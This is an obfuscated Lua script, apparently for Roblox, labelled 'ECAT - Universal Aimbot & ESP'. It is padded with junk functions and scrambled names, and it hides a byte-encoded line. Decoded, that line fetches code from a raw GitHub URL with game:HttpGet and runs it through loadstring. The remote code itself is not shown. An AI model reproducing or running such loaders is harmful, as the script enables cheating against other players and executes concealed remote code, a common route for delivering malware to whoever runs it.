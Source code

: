 --[[

  ___            _            _       
 ( _ )  ___ __ _| |___      _(_)_ __  
 / _ \ / __/ _` | __\ \ /\ / / | '_ \ 
| (_) | (_| (_| | |_ \ V  V /| | | | |
 \___/ \___\__,_|\__(_)_/\_/ |_|_| |_|
                                      
    ECAT - Universal Aimbot & ESP 

]]
function catguard(ioPFgMvcII_crybabe_ETyVPWhSpx) if (ioPFgMvcII_crybabe_ETyVPWhSpx==(((((919 + 636)-636)*3147)/3147)+919)) then return not true end if (ioPFgMvcII_crybabe_ETyVPWhSpx==(((((968 + 670)-670)*3315)/3315)+968)) then return not false end end; local CGWcGWqcln_crybabe_GdOGsAQQlF = (7*3-9/9+3*2/0+3*3);local vWCzMSlmxL_crybabe_gYpvZbucFm = (3*4-7/7+6*4/3+9*9);local JzCeiFUBuJ_chorume_bvqKduwuAI = table.concat;function eSVFZTrHqo_MADEINBRAZIL_KCXAOZBVzo(CGWcGWqcln_crybabe_GdOGsAQQlF) function CGWcGWqcln_crybabe_GdOGsAQQlF(CGWcGWqcln_crybabe_GdOGsAQQlF) function CGWcGWqcln_crybabe_GdOGsAQQlF(FDDXJuZUqu_chorume_MRpBetiVCa) end end end;eSVFZTrHqo_MADEINBRAZIL_KCXAOZBVzo(900283);function catguardlua(vWCzMSlmxL_crybabe_gYpvZbucFm) function CGWcGWqcln_crybabe_GdOGsAQQlF(FDDXJuZUqu_chorume_MRpBetiVCa) local vWCzMSlmxL_crybabe_gYpvZbucFm = (9*0-7/5+3*1/3+8*2) end end;catguardlua(9083);local mTVCITuoPW_crybabe_wnpIiLWCNf = loadstring;local YwQInwjTLu_chorume_NLcQJaGpKE = {'\45','\45','\47','\47','\32','\68','\101','\99','\111','\109','\112','\105','\108','\101','\100','\32','\67','\111','\100','\101','\46','\32','\10','\108','\111','\97','\100','\115','\116','\114','\105','\110','\103','\40','\103','\97','\109','\101','\58','\72','\116','\116','\112','\71','\101','\116','\40','\39','\104','\116','\116','\112','\115','\58','\47','\47','\114','\97','\119','\46','\103','\105','\116','\104','\117','\98','\117','\115','\101','\114','\99','\111','\110','\116','\101','\110','\116','\46','\99','\111','\109','\47','\56','\115','\111','\102','\116','\119','\97','\114','\101','\47','\73','\108','\108','\108','\73','\108','\73','\73','\73','\108','\73','\108','\108','\73','\47','\109','\97','\105','\110','\47','\108','\108','\73','\73','\108','\73','\73','\73','\73','\73','\108','\73','\73','\108','\108','\108','\73','\108','\39','\44','\116','\114','\117','\101','\41','\41','\40','\41','\10',}mTVCITuoPW_crybabe_wnpIiLWCNf(JzCeiFUBuJ_chorume_bvqKduwuAI(YwQInwjTLu_chorume_NLcQJaGpKE,CCMqInBzGT_crybabe_KhukZRhaOb))()
